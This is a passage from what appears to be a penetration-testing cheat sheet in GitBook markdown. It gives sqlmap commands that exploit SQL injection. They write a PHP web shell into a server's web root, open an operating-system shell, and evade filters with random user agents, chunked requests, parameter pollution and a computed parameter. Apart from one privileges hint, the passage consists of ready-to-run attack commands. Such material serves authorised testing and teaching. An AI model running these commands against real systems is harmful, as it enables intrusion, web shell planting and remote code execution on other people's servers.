 {% tab title="Write" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
```bash
sqlmap -r burp.req --batch -v 0 --os-shell
```
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
DBAs need certain privileges to be able to write files. Local access is also required such as write permissions in the directory we want to write to.
{% endhint %}

### Bypasses

{% tabs %}
{% tab title="Unique Value" %}
```bash
sqlmap -r burp.req --batch -v 0 --randomize=rp 
```
{% endtab %}

{% tab title="Calculated Param" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --eval="import hashlib; h=hashlib.md5(id).hexdigest()"
```
{% endcode %}
{% endtab %}

{% tab title="Agent" %}
{% code overflow="wrap" %}
```bash
sqlmap -r burp.req --batch -v 0 --random-agent
```
{% endcode %}
{% endtab %}

{% tab title="Chunked" %}
```bash
sqlmap -r burp.req --batch -v 0 --chunked
```
{% endtab %}

{% tab title="HPP" %}
```bash
sqlmap -r burp.req --batch -v 0 -hpp
```
{% endtab %}
{% endtabs %}

